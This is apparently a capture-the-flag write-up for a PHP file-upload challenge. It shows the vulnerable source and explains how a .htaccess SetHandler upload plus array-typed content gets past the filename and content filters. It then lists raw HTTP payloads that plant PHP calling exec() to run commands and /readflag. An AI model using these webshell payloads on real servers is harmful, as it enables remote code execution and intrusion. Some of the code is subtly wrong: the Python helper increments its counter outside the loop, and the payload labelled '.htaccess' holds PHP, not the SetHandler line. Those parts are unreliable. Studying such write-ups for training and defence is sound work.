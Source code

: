 # pcat/7/easygame

**Name**: easygame

**Type**: web

**Author**: [kagi](http://www.cnblogs.com/kagari/)

**Desc**: bypass me

**Link**: http://139.9.251.90:8888/

**Attach**: None

**Tips**: None

**Total:** 125 **First:** 佚名  **Second:** Ricky  **Third:** lu0sf

## Writeup

```php
<?php
highlight_file(__FILE__);
#### easy game

$upload = 'upload/'.md5("2021".$_SERVER['REMOTE_ADDR']);
@mkdir($upload);
file_put_contents($upload.'/index.php', '');
var_dump($upload);

if (isset($_POST['file']) && isset($_POST['file'])){
    if(preg_match('#.+\.ph(p[3457]?|t|tml)$|/#is',$_POST['file'])){
        die('file error');
    }
    if(preg_match('#\w{2,}|[678]|<\?|/#',$_POST['content'])){
        die('content error');
    }
    file_put_contents($upload.'/'.$_POST['file'], $_POST['content']);
}


if (isset($_GET['reset'])){
    @rmdir($upload);
} string(39) "upload/c946d761bddc7564ff3e45a77a54ae13"
```

We have access to the upload folder, but both the filename and the content are filtered. The question is to bypass the filter.

### Bypass filename

The filename can't be uploaded using any kind of `.php` format. The only way is to upload a `.htaccess` file to identify the files in this folder are all executed using `php`.

```
.htaccess
SetHandler application/x-httpd-php
```

After that, we can upload any filename and open it, the file would be resolved using `php`.

But how can we upload the content in the `.htaccess`? Let's discuss below.

### Bypass content

The filter is strict, all 2 length printable characters are not valid. However, we can use an array to bypass this filter.

```python
def gen_content(inp):
	i = 1
	for c in inp:
		print('content['+str(i)+']=%'+hex(ord(c))[2:]+'&', end='')
	i += 1
```

Then we can upload any `php` script to server and gain RCE.

How to find the flag? After several searching in the server, we discovered a `/readflag` ELF to read the flag file. Execute it to get the flag.

## Payload

`.htaccess` file upload:

```http
file=.htaccess&content[1]=<&content[2]=?&content[3]=p&content[4]=h&content[5]=p&content[6]=%0a&content[7]=e&content[8]=x&content[9]=e&content[10]=c&content[11]=(&content[12]="&content[13]=l&content[14]=s&content[15]="&content[16]=)&content[17]=%0a&content[18]=?&content[19]=>
```

`payload` file upload:

```http
file=payload&content[1]=<&content[2]=?&content[3]=p&content[4]=h&content[5]=p&content[6]=%0a&content[7]=e&content[8]=c&content[9]=h&content[10]=o&content[11]=%20&content[12]=e&content[13]=x&content[14]=e&content[15]=c&content[16]=(&content[17]="&content[18]=/&content[19]=r&content[20]=e&content[21]=a&content[22]=d&content[23]=f&content[24]=l&content[25]=a&content[26]=g&content[27]="&content[28]=)&content[29]=%0a&content[30]=?&content[31]=>
```

## Flag

flag{46dd5c50-3e80-485e-80f4-f46b5d85f4b8}